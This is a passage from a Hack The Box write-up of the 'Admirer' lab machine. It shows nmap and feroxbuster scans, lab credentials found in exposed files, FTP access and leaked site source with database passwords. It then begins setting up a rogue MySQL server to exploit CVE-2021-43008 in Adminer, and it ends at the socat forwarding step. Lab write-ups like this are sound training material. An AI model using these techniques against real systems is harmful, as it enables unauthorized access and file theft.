









# [EASY] Admirer <br/>




# <span style="color:red">Introduction</span> 

**Admirer** is an easy box on HackTheBox that is vulnerable to **CVE-2021-43008** and **module hijacking**.
<br />

I first revealed **robots.txt** file, which unveiled a hidden directory, **/admin-dir**. Inside this directory, I found two critical files, **contacts.txt and credentials.txt**, which ultimately granted me access to the FTP server.

<br />

Upon accessing the **FTP**, I was able to examine the web page's source code, where I stumbled upon the intriguing **/utility-scripts** directory. Within this directory, I uncovered several intriguing PHP files.

<br />

As I conducted directory busting on /utility-scripts, I serendipitously stumbled upon '**adminer.php**,' which presented a vulnerability to CVE-2021-43008. This vulnerability allowed me to read arbitrary files, which led me to obtain new credentials.

Using these acquired credentials, I gained SSH access with the user '**waldo**' privilege. This allowed me to utilize **module hijacking** techniques to ultimately escalate my privileges to root.


# <span style="color:red">Box Info</span>

<table>
  <thead>
    <tr>
      <th>Name</th>
    <th style="text-align: right"><a href="https://affiliate.hackthebox.com/box?box=admirer" target="_blank" style="font-size: xx-large; : 0 0 5px #ffffff, 0 0 3px #ffffff; color: #ffffff">
      admirer
      </a><br /></th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>OS</td>
      <td style="text-align: right"><a style="font-size: x-large; : 0 0 5px #ffffff, 0 0 7px #ffffff; color: #2020E">
      Linux
      </a></td>
    </tr>
     <tr>
      <td>1st User blood</td>
      <td style="text-align: right"><a href="https://www.hackthebox.eu/home/users/profile/35352"></a></td>
    </tr>
    <tr>
      <td>1st System blood</td>
      <td style="text-align: right"><a href="https://www.hackthebox.eu/home/users/profile/24819"></a></td>
    </tr>
  </tbody>
</table>

# <span style="color:red">Basic Enumeration</span>
## Scanning for open ports using Nmap
Only port 21, 22, and 80 is open with all the other ports filtered:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/admirer/nmap]
└─$ cat openportscan 
# Nmap 7.93 scan initiated Tue Oct 10 22:29:37 2023 as: nmap -sT -p- -T4 -oN nmap/openportscan -vv 10.10.10.187
Warning: 10.10.10.187 giving up on port because retransmission cap hit (6).
Nmap scan report for localhost (10.10.10.187)
Host is up, received echo-reply ttl 63 (0.34s latency).
Scanned at 2023-10-10 22:29:38 EDT for 1330s
Not shown: 65506 closed tcp ports (conn-refused)
PORT      STATE    SERVICE      REASON
13/tcp    filtered daytime      no-response
21/tcp    open     ftp          syn-ack
22/tcp    open     ssh          syn-ack
80/tcp    open     http         syn-ack
507/tcp   filtered crs          no-response
600/tcp   filtered ipcserver    no-response
2211/tcp  filtered emwin        no-response
4175/tcp  filtered bccp         no-response
4553/tcp  filtered icshostsvc   no-response
4939/tcp  filtered unknown      no-response
7799/tcp  filtered altbsdp      no-response
11021/tcp filtered unknown      no-response
15882/tcp filtered unknown      no-response
18759/tcp filtered unknown      no-response
21287/tcp filtered unknown      no-response
21462/tcp filtered unknown      no-response
24012/tcp filtered unknown      no-response
25700/tcp filtered unknown      no-response
27109/tcp filtered unknown      no-response
27628/tcp filtered unknown      no-response
34567/tcp filtered dhanalakshmi no-response
35715/tcp filtered unknown      no-response
39817/tcp filtered unknown      no-response
43720/tcp filtered unknown      no-response
45119/tcp filtered unknown      no-response
48003/tcp filtered nimgtw       no-response
48715/tcp filtered unknown      no-response
49571/tcp filtered unknown      no-response
55263/tcp filtered unknown      no-response

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Oct 10 22:51:48 2023 -- 1 IP address (1 host up) scanned in 1331.23 seconds
```

## Version scan using nmap
**robots.txt** says **admin-dir** is not an allowed entry:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/admirer/nmap]
└─$ cat versionscan 
# Nmap 7.93 scan initiated Tue Oct 10 22:55:03 2023 as: nmap -sVC -p 13,21,22,80 -vv -oN nmap/versionscan 10.10.10.187
Nmap scan report for localhost (10.10.10.187)
Host is up, received echo-reply ttl 63 (0.37s latency).
Scanned at 2023-10-10 22:55:04 EDT for 19s

PORT   STATE  SERVICE REASON         VERSION
13/tcp closed daytime reset ttl 63
21/tcp open   ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open   ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a71e92163699dcbdd84021a2397e1b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQHjxkc8zeXPgI5C7066uFJaB6EjvTGDEwbfl0cwM95npP9G8icv1F/YQgKxqqcGzl+pVaAybRnQxiZkrZHbnJlMzUzNTxxI5cy+7W0dRZN4VH4YjkXFrZRw6dx/5L1wP4qLtdQ0tLHmgzwJZO+111mrAGXMt0G+SCnQ30U7vp95EtIC0gbiGDx0dDVgMeg43+LkzWG+Nj+mQ5KCQBjDLFaZXwCp5Pqfrpf3AmERjoFHIE8Df4QO3lKT9Ov1HWcnfFuqSH/pl5+m83ecQGS1uxAaokNfn9Nkg12dZP1JSk+Tt28VrpOZDKhVvAQhXWONMTyuRJmVg/hnrSfxTwbM9
|   256 c595b6214d46a425557a873e19a8e702 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNHgxoAB6NHTQnBo+/MqdfMsEet9jVzP94okTOAWWMpWkWkT+X4EEWRzlxZKwb/dnt99LS8WNZkR0P9HQxMcIII=
|   256 d02dddd05c42f87b315abe57c4a9a756 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqp21lADoWZ+184z0m9zCpORbmmngq+h498H9JVf7kP
80/tcp open   http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
|_http-title: Admirer
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 10 22:55:23 2023 -- 1 IP address (1 host up) scanned in 20.50 seconds
```

## Feroxbuster

Nothing interesting was found from directory bruteforcing:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/admirer]
└─$ sudo feroxbuster -u http://10.10.10.187 -n -x php,html -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o ferox.txt

200      GET       27l       57w      436c http://10.10.10.187/assets/css/noscript.css
200      GET      281l      537w     6107c http://10.10.10.187/assets/js/main.js
200      GET        2l       51w     1851c http://10.10.10.187/assets/js/browser.min.js
200      GET      219l     1339w    92085c http://10.10.10.187/images/thumbs/thmb_nat01.jpg
200      GET      230l     1300w    96836c http://10.10.10.187/images/thumbs/thmb_mind02.jpg
200      GET      876l     4293w   343646c http://10.10.10.187/images/fulls/arch01.jpg
200      GET      984l     8797w  1038470c http://10.10.10.187/images/fulls/nat02.jpg
200      GET      153l      529w     6051c http://10.10.10.187/
301      GET        9l       28w      313c http://10.10.10.187/images => http://10.10.10.187/images/
301      GET        9l       28w      313c http://10.10.10.187/assets => http://10.10.10.187/assets/
```
## Port 80

Website shows bunch of images and there's no special feature to it:
<br />


## robots.txt

From **robots.txt**, I can assume that whoever wrote this is **waldo** and **/admin-dir** contains important credentials:
<br />



<br />
I tried accessing **/admin-dir**, but access was forbidden:
<br />


## Attempting 403 bypass
At first, I though it would be possible to bypass 403.
<br />
Using Burp Suite, I tried fuzzing HTTP methods with parameter such as GET, HEAD, POST... but nothing seemed to have worked:
<br />


<br />
After trying to bypass 403 for several hours, I decided to move on with no success.

## /admin-dir

Going back to **/robots.txt**, I realized there might be more directories under **/admin-dir**. 
<br />

I ran feroxbuster again with extesion php,html,txt,zip and as I thought, **contacts.txt** and **credentials.txt** was found:
<br />   

**contacts.txt**:




**credentials.txt**:



<br />
Now that I have domain name(**admirer.htb**), I added them to /etc/hosts.
<br />

Now I know who the admin and what users are there. 
<br />
I also have credentials:

```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```
<br />
With FTP account credentials, I can sign in to port 22.

## FTP enumeration

Using the credentials found from **credentials.txt**, I was able to signin to ftp:
<br />

```ftp
┌──(yoon㉿kali)-[~/Documents/htb/admirer]
└─$ ftp admirer.htb 
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:yoon): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
<br />
FTP had two files(dump.sql,html.tar.gz) inside of it and I used mget to download both of them:
<br />

```ftp
ftp> ls
229 Entering Extended Passive Mode (|||18706|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp> mget *
```

# <span style="color:red">html.tar.gz</span>

**dump.sql** seemed to be bunch of images that are used on website.

<br />

**html.tar.gz** seemed to be source for the webpage.


```bash
┌──(yoon㉿kali)-[~/Documents/htb/admirer]
└─$ sudo tar -xvzf html.tar.gz
assets/
assets/sass/
assets/sass/base/
assets/sass/base/_reset.scss
assets/sass/base/_typography.scss
assets/sass/base/_page.scss
<snip>
```
<br />
**index.php,utility-scripts, w4ld0s_s3cr3t_d1r** must have something interesting in it:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/admirer/unzipped]
└─$ ls
assets  html.tar.gz  images  index.php  robots.txt  utility-scripts  w4ld0s_s3cr3t_d1r
```
## w4ld0s_s3cr3t_d1r

**contacts.txt** and **credentials.txt** was found inside of it. **contacts.txt** was the exact same as I found on **/admin-dir** but **credentials.txt** had **bank account** credentials added to it:
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/admirer/unzipped/w4ld0s_s3cr3t_d1r]
└─$ cat credentials.txt 
[Bank Account]
waldo.11
Ezy]m27}OREc$

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

## index.php

From index.php, new credntial was found:
<br />
```php
 $servername = "localhost";
 $username = "waldo";
 $password = "]F7jLHw:*G>UPrTo}~A"d6b";
 $dbname = "admirerdb";
```
<br />
Briefly reading through the code, I was able to tell there must be sql db running on this server that can't be reached externally.
<br />

```php
<!DOCTYPE HTML>
	<!--
		Multiverse by HTML5 UP
		html5up.net | @ajlkn
		Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)
	-->
	<html>
		<head>
			<title>Admirer</title>
			<meta charset="utf-8" />
			<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />
			<link rel="stylesheet" href="assets/css/main.css" />
			<noscript><link rel="stylesheet" href="assets/css/noscript.css" /></noscript>
		</head>
		<body class="is-preload">

			<!-- Wrapper -->
				<div id="wrapper">

					<!-- Header -->
						<header id="header">
							<h1><a href="index.html"><strong>Admirer</strong> of skills and visuals</a></h1>
							<nav>
								<ul>
									<li><a href="#footer" class="icon solid fa-info-circle">About</a></li>
								</ul>
							</nav>
						</header>

					<!-- Main -->
						<div id="main">			
						 <?php
	                        $servername = "localhost";
	                        $username = "waldo";
	                        $password = "]F7jLHw:*G>UPrTo}~A"d6b";
	                        $dbname = "admirerdb";

	                        // Create connection
	                        $conn = new mysqli($servername, $username, $password, $dbname);
	                        // Check connection
	                        if ($conn->connect_error) {
	                            die("Connection failed: " . $conn->connect_error);
	                        }

	                        $sql = "SELECT * FROM items";
	                        $result = $conn->query($sql);

	                        if ($result->num_rows > 0) {
	                            // output data of each row
	                            while($row = $result->fetch_assoc()) {
	                                echo "<article class='thumb'>";
	    							echo "<a href='".$row["image_path"]."' class='image'></a>";
		    						echo "<h2>".$row["title"]."</h2>";
		    						echo "<p>".$row["text"]."</p>";
		    					    echo "</article>";
	                            }
	                        } else {
	                            echo "0 results";
	                        }
	                        $conn->close();
	                    ?>
						</div>

					<!-- Footer -->
						<footer id="footer" class="panel">
							<div class="inner split">
								<div>
									<section>
										<h2>Allow yourself to be amazed</h2>
										<p>Skills are not to be envied, but to feel inspired by.<br>
										Visual arts and music are there to take care of your soul.<br><br>
										Let your senses soak up these wonders...<br><br><br><br>
										</p>
									</section>
									<section>
										<h2>Follow me on ...</h2>
										<ul class="icons">
											<li><a href="#" class="icon brands fa-twitter"><span class="label">Twitter</span></a></li>
											<li><a href="#" class="icon brands fa-facebook-f"><span class="label">Facebook</span></a></li>
											<li><a href="#" class="icon brands fa-instagram"><span class="label">Instagram</span></a></li>
											<li><a href="#" class="icon brands fa-github"><span class="label">GitHub</span></a></li>
											<li><a href="#" class="icon brands fa-dribbble"><span class="label">Dribbble</span></a></li>
											<li><a href="#" class="icon brands fa-linkedin-in"><span class="label">LinkedIn</span></a></li>
										</ul>
									</section>
								</div>
								<div>
									<section>
										<h2>Get in touch</h2>
										<form method="post" action="#"><!-- Still under development... This does not send anything yet, but it looks nice! -->
											<div class="fields">
												<div class="field half">
													<input type="text" name="name" id="name" placeholder="Name" />
												</div>
												<div class="field half">
													<input type="text" name="email" id="email" placeholder="Email" />
												</div>
												<div class="field">
													<textarea name="message" id="message" rows="4" placeholder="Message"></textarea>
												</div>
											</div>
											<ul class="actions">
												<li><input type="submit" value="Send" class="primary" /></li>
												<li><input type="reset" value="Reset" /></li>
											</ul>
										</form>
									</section>
								</div>
							</div>
						</footer>

				</div>

			<!-- Scripts -->
				<script src="assets/js/jquery.min.js"></script>
				<script src="assets/js/jquery.poptrox.min.js"></script>
				<script src="assets/js/browser.min.js"></script>
				<script src="assets/js/breakpoints.min.js"></script>
				<script src="assets/js/util.js"></script>
				<script src="assets/js/main.js"></script>

		</body>
	</html>
```

## utility-scripts

Many interesting php files could be found here:
<br />

```bash
┌──(yoon㉿kali)-[~/…/htb/admirer/unzipped/utility-scripts]
└─$ ls
admin_tasks.php  db_admin.php  info.php  phptest.php
```
<br />
All the php files inside **utility-scripts** were accessbile through web browser except for **db_admin.php**, which I don't know why but probably because this is the backup source file to old version of the webpage and on current webpage **db_admin.php** might not be on it.

<br />

### admin_tasks.php

<br />

**admin_tasks.php** executes command based on task number. It runs command such as **view system uptime** and **view crontab**. It is interesting that it runs using **shell_exec** but I think nothing could be done here for now.
<br />

```php
<html>
<head>
  <title>Administrative Tasks</title>
</head>
<body>
  <h3>Admin Tasks Web Interface (v0.01 beta)</h3>
  <?php
  // Web Interface to the admin_tasks script
  // 
  if(isset($_REQUEST['task']))
  {
    $task = $_REQUEST['task'];
    if($task == '1' || $task == '2' || $task == '3' || $task == '4' ||
       $task == '5' || $task == '6' || $task == '7')
    {
      /*********************************************************************************** 
         Available options:
           1) View system uptime
           2) View logged in users
           3) View crontab (current user only)
           4) Backup passwd file (not working)
           5) Backup shadow file (not working)
           6) Backup web data (not working)
           7) Backup database (not working)

           NOTE: Options 4-7 are currently NOT working because they need root privileges.
                 I'm leaving them in the valid tasks in case I figure out a way
                 to securely run code as root from a PHP page.
      ************************************************************************************/
      echo str_replace("\n", "<br />", shell_exec("/opt/scripts/admin_tasks.sh $task 2>&1"));
    }
    else
    {
      echo("Invalid task.");
    }
  } 
  ?>

  <p>
  <h4>Select task:</p>
  <form method="POST">
    <select name="task">
      <option value=1>View system uptime</option>
      <option value=2>View logged in users</option>
      <option value=3>View crontab</option>
      <option value=4 disabled>Backup passwd file</option>
      <option value=5 disabled>Backup shadow file</option>
      <option value=6 disabled>Backup web data</option>
      <option value=7 disabled>Backup database</option>
    </select>
    <input type="submit">
  </form>
</body>
</html>
```

### db_admin.php

**db_admin.php** revealed a new credential:
<br />

```php
<?php
  $servername = "localhost";
  $username = "waldo";
  $password = "Wh3r3_1s_w4ld0?";

  // Create connection
  $conn = new mysqli($servername, $username, $password);

  // Check connection
  if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error);
  }
  echo "Connected successfully";


  // TODO: Finish implementing this or find a better open source alternative
?>
```

### info.php


From **info.php** page, I can see information about php:
<br />

```php
<?php phpinfo(); ?>
```

### phptest.php


Just a simple test php file:
<br />

```php
<?php
  echo("Just a test to see if PHP works.");
?>
```

# <span style="color:red">adminer.php</span>

I was thinking there must be some way to signin to the system using all the credentials found so far.
<br />
- I tried signing in to ssh using different crdentials (FAIL).
- I was looking for wordpress login page as I found credential with wordpress (FAIL).
- I went back to nmap scan to see if I missed any port with DB running (FAIL).


## Ferobuster on /utility-scripts

Honestly, I though SSH would work which didn't so I ran **Feroxbuster** on **utility-scripts** hoping there's more php file that was not on **html.tar.gz**.
<br />

```bash
┌──(yoon㉿kali)-[~/Documents/htb/admirer/unzipped]
└─$ sudo feroxbuster -u http://admirer.htb/utility-scripts -n -x php,html,zip,txt -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -o ferox-utility-scripts.txt

301      GET        9l       28w      320c http://admirer.htb/utility-scripts => http://admirer.htb/utility-scripts/
200      GET      962l     4963w    83749c http://admirer.htb/utility-scripts/info.php
200      GET        1l        8w       32c http://admirer.htb/utility-scripts/phptest.php
200      GET       51l      235w     4295c http://admirer.htb/utility-scripts/adminer.php
```

Luckily, I found **adminer.php** page.


<br />

From some googling, I found out **adminer 4.6.2** is vulnerable to **CVE-2021-43008**.
<br />
0 to 4.6. 2 (fixed in version 4.6. 3) allows an attacker to achieve Arbitrary File Read on the remote server by requesting the Adminer to connect to a remote MySQL database.
<br />

# <span style="color:red">Exploitation</span>
## CVE-2021-43008

1. Attacker needs modified MySQL server running on local machine.
2. Locate **adminer.php** on victim system.
3. On **adminer.php** connect to modifed MySQL server using preset crednetials.
4. Now attacker can read files inside the victim's system. 

<br />

In order to recreate **CVE-2021-43008**, I first need to have **mysql** running on my local machine so that adminer.php can connect back to it.

## mysql installation

I first installed mariadb-client and mariadb-server:
<br />

```
sudo apt install mariadb-client
sudo apt install mariadb-server
```
<br />
These are the versions:
<br />

```bash
┌──(yoon㉿kali)-[/etc/mysql]
└─$ mysql --version

mysql  Ver 15.1 Distrib 10.11.4-MariaDB, for debian-linux-gnu (x86_64) using  EditLine wrapper
     
┌──(yoon㉿kali)-[/etc/mysql]
└─$ mariadb --version
mariadb  Ver 15.1 Distrib 10.11.4-MariaDB, for debian-linux-gnu (x86_64) using  EditLine wrapper
```
<br />
I enabled mysql and mariadb:
<br />

```
┌──(yoon㉿kali)-[/etc/mysql]
└─$ systemctl enable mysql


Created symlink /etc/systemd/system/multi-user.target.wants/mariadb.service → /lib/systemd/system/mariadb.service.
                                                                                                
┌──(yoon㉿kali)-[/etc/mysql]
└─$ systemctl enable mariadb

Synchronizing state of mariadb.service with SysV service script with /lib/systemd/systemd-sysv-install.
Executing: /lib/systemd/systemd-sysv-install enable mariadb
update-rc.d: error: Permission denied
```
<br />
Starting the service, now I have mysql on my local machine:
<br />

```bash
┌──(yoon㉿kali)-[~]
└─$ service mysql start                      
                                            
┌──(yoon㉿kali)-[~]
└─$ sudo mysql                     
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 32
Server version: 10.11.4-MariaDB-1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
<br />

I created user name **jadu** with password **jadu101**. I gave all the privileges to jadu and created new databse named **admirerpwn** and created table named **demo** in it:
<br />

```sql
MariaDB [(none)]> CREATE USER 'jadu'@'%' IDENTIFIED BY 'jadu101';
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> GRANT ALL PRIVILEGES ON *.* TO 'jadu'@'%';
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> FLUSH PRIVILEGES;
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> create database admirerpwn;
Query OK, 1 row affected (0.000 sec)

MariaDB [(none)]> use admirerpwn;
Database changed

MariaDB [admirerpwn]> create table demo(name varchar(255));
Query OK, 0 rows affected (0.005 sec)

MariaDB [admirerpwn]> show tables;
+----------------------+
| Tables_in_admirerpwn |
+----------------------+
| demo                 |
+----------------------+
1 row in set (0.000 sec)
```

## Forwarding

MySQL on listens locally, so I needed to forward the connection from routing device to local network. 

### Method 1: socat

I can set up a socat listener on my routeable interface and send the connection to local host because MySQL only listens on localhost.
<br />

```bash
┌──(yoon㉿kali)-[/etc/mysql/mariadb.conf.d]
